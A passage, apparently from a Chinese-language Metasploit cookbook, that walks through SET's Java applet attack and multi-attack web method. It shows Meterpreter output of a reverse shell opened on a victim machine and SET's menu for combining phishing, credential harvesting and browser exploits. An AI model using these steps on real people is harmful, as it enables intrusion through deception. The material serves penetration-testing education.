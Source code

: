 现在，一旦目标用户单击**允许**，恶意小程序就会被执行，并允许执行有效负载。Metasploit 侦听器将从目标机器接收回连接，因此，我们将有一个活动会话：

```
[*] Sending stage (748544 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.103:443 ->
Thu Sep 09 10:06:57 -0400 2010
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > shell
Process 2988 created.
Channel 1 created.
Microsoft Windows XP [Version 6.1]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop> 
```

同样，我们也可以执行其他攻击。您可以看到 SET 如何轻松地为我们创建攻击向量，并为我们提供对场景的完全控制。SET 最好的一点是，它可以让您有充分的机会在任何时候实现自己的修改和更改。

## 它是如何工作的。。。

Java 小程序感染是一种流行的 Java 小程序漏洞，允许在受保护的沙箱环境之外执行小程序。未签名或不安全的小程序在对系统资源访问受限的沙盒环境中执行。一旦允许恶意小程序在警告消息后执行，它将获得目标计算机上的完全资源访问权限，因为现在它位于沙盒环境之外。这允许小程序执行 Java 漏洞并允许远程代码执行。类似地，其他基于 web 的攻击向量使用浏览器将攻击转移到目标系统。社会工程再一次在于创造一个愚弄用户的场景的艺术。攻击者可以创建隐藏在 `href`标记下的恶意链接，或者可以使用假签名对小程序进行签名，以使其看起来完全合法。集合模板是设计攻击的良好来源。

# 多攻击 web 方法

多攻击 web 方法通过将多个攻击组合为一个攻击，进一步将 web 攻击提升到下一个级别。这种攻击方法允许我们在单一格式下利用多个漏洞。目标用户打开文件或 URL 后，除非报告成功的攻击，否则每次攻击都会逐个抛出。SET 自动化了在单个 web 攻击场景下使用棍棒攻击不同攻击的过程。让我们继续前进，看看如何做到这一点。

## 怎么做。。。

多重攻击 web 方法开始时与其他基于 web 的攻击类似。我们首先选择一个可以导入或克隆的模板。区别在于下一步，我们可以选择可以添加到 web 攻击中的各种漏洞。

选择要使用的攻击：

```
1\. The Java Applet Attack Method (OFF)
2\. The Metasploit Browser Exploit Method (OFF)
3\. Credential Harvester Attack Method (OFF)
4\. Tabnabbing Attack Method (OFF)
5\. Man Left in the Middle Attack Method (OFF)
6\. Web Jacking Attack Method (OFF)
7\. Use them all - A.K.A. 'Tactical Nuke'
8\. I'm finished and want proceed with the attack.
9\. Return to main menu.
Enter your choice one at a time (hit 8 when finished selecting): 
```

我们可以选择不同的攻击，一旦我们完成，我们可以通过 `8`并最终将选择的攻击组合到一个向量下。最后，我们将被提示选择有效负载和后门编码器。

## 它是如何工作的。。。

一旦选择了不同的攻击，将它们设置为有效负载，并构建一个需要立即进行社会工程的恶意链接。我们将不得不建立一个模板，看起来完全合法的目标用户，并迫使他访问恶意链接。一旦受害者单击链接，除非成功发起攻击，否则将逐个尝试不同的攻击。一旦发现并利用漏洞，有效负载将提供到 Metasploit 侦听器的反向连接。
